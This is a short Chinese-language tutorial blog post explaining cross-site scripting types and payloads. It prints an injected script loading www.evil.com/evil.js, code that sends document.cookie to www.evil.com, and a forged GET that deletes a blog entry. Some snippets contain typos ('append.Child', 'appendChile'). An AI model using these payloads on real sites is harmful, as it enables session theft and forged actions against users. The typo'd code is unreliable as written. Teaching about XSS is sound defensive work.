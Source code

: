 ```yaml
---
title: XXS跨站脚本攻击
date: 2016-10-27 21:00:00
tags:
- XSS 
- Web安全

---
```

### XSS
XSS，全名Cross Site Script。通常指攻击者通过"HTML注入"篡改网页，插入恶意脚本，从而在用户访问网页时控制用户浏览器的攻击。但现在，是否跨域对这种攻击已经不重要了，只是这个名字一直沿用下来。  
从分类上来说，可以分为反射型XSS，存储型XSS，DOM Based XSS三种。

### XSS payload
XSS payload实际上是JavaScript脚本，常见的如通过读取浏览器的Cookie对象，发起Cookie劫持攻击。例如，在URL中加载一个远程脚本，并且在远程脚本中获取Cookie：

	http://www.a.com/test.htm?abc="><script src=www.evil.com/evil.js></script>
	
	//evil.js
	var img = document.createElement("img");
	img.src = "http://www.evil.com/log?"+escape(document.cookie);
	document.body.append.Child(img)
	
这段代码在页面中插入了一张无效的图片，同时把document.cookie对象作为参数发送到远程服务器，从而完成了窃取。这样通过XSS攻击，能够劫持Cookie，直接登录进用户的账户。  

### 构造GET/POST
假设有一个删除文章的链接，其中包含有文章的id：

	http://blog.xxx.com/manage.entry.do?m=delete&id=123456

那么攻击者知道了这篇文章的id，就可以利用它来删除这篇文章。这里，可以通过插入一张图片，来发起一个GET请求，这里，攻击者只需要诱使文章的作者去执行这一段javascript代码，就会把文章删除掉。  

	var img = document.createElement("img");
	img.src = "http://blog.xxx.com/manage/entry.do?m=delete&id=123456"
	document.body.appendChile(img)；

而利用javascript，攻击者完全可以模拟浏览器发包，例如构造form表单，或者构造XMLHttpRequest。因此，攻击者不仅能够实施cookie的劫持，还能模拟GET、POST来操作用户浏览器。


	
